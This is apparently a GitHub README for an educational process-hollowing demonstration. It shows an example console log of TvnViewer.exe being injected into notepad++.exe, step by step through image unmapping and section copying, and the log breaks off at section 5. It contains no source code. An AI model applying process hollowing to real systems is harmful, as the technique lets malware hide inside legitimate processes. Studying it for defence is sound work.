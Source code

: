 # Process Hollowing
Understanding one of the the Process Hollowing technique used by Malware Authors

![PE Injection](https://user-images.githubusercontent.com/12537739/123103105-4688f480-d468-11eb-83a0-7a3ea3d8dff5.gif)


# Example Run

```sh
Injecting TvnViewer.exe into notepad++.exe
[+] Creating Victim Process notepad++.exe
        [*] Successfully created victim process notepad++.exe
[+] Retrieving Thread Handle of notepad++.exe
        [*] Thread Handle at  0x2E0
[+] Allocating unmanaged memory for ThreadContext of notepad++.exe
[+] Retrieving ThreadContext of notepad++.exe
[+] Retrieving ImageBase Address of notepad++.exe
        [*] notepad++.exe's ImageBase Address is 0xA5A7162010
[+] Allocating unmanaged memory for notepad++.exe's ImageBase
[+] Reading ImageBase from notepad++.exe's ImageBase Address
        [*] ImageBase is 0xA5A7162010
[+] Unmapping notepad++.exe's Image
        [*] Successfully unmapped...
[+] Retrieving E_LFANEW of TvnViewer.exe
        [*] E_LFANEW is 0xF0
[+] Retrieving TvnViewer.exe's ImageBase
        [*] ImageBase is 0x140000000
[+] Retrieving Size of TvnViewer.exe
        [*] Size is 0x125000
[+] Allocating space for TvnViewer.exe's Image
        [*] Space allocated at 0x5368709120
[+] Retrieving TvnViewer.exe's Header Size
        [*] Header Size is 0x400
[+] Writing Headers of TvnViewer.exe into notepad++.exe at 0x5368709120
        [*] Headers successfully written...
[+] Retrieving TvnViewer.exe's number of Sections
        [*] Number of sections is  6
[+] Copying Section 1
        [*] Name: .text
        [*] Relative Virtual Address: 0x1000
        [*] Size of Raw Data: 0xC5200
        [*] Pointer to Raw Data: 0x400

[+] Copying Section 2
        [*] Name: .rdata
        [*] Relative Virtual Address: 0xC7000
        [*] Size of Raw Data: 0x3CC00
        [*] Pointer to Raw Data: 0xC5600

[+] Copying Section 3
        [*] Name: .data
        [*] Relative Virtual Address: 0x104000
        [*] Size of Raw Data: 0x5800
        [*] Pointer to Raw Data: 0x102200

[+] Copying Section 4
        [*] Name: .pdata
        [*] Relative Virtual Address: 0x10D000
        [*] Size of Raw Data: 0xC800
        [*] Pointer to Raw Data: 0x107A00

[+] Copying Section 5
```